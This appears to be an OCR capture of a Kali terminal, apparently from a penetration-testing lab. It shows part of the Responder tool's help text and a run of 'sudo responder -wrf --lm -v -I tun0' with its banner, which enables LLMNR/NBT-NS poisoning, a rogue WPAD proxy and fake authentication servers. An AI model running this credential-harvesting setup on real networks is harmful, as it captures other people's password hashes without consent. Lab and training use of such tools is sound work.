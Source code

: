   -w, --wpad            Start the WPAD rogue proxy server. Default value is
                        False
  -u UPSTREAM_PROXY, --upstream-proxy=UPSTREAM_PROXY
                        Upstream HTTP proxy used by the rogue WPAD Proxy for
                        outgoing requests (format: host:port)
  -F, --ForceWpadAuth   Force NTLM/Basic authentication on wpad.dat file
                        retrieval. This may cause a login prompt. Default:
                        False
  -P, --ProxyAuth       Force NTLM (transparently)/Basic (prompt)
                        authentication for the proxy. WPAD doesn't need to be
                        ON. This option is highly effective when combined with
                        -r. Default: False
  --lm                  Force LM hashing downgrade for Windows XP/2003 and
                        earlier. Default: False
  -v, --verbose         Increase verbosity.



                                                                                                                                                                                                                                    
┌──(mido㉿kali)-[~]
└─$ sudo responder -wrf --lm -v -I tun0                                                                                                                                                                                                2 ⚙

                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.0.6.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [ON]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
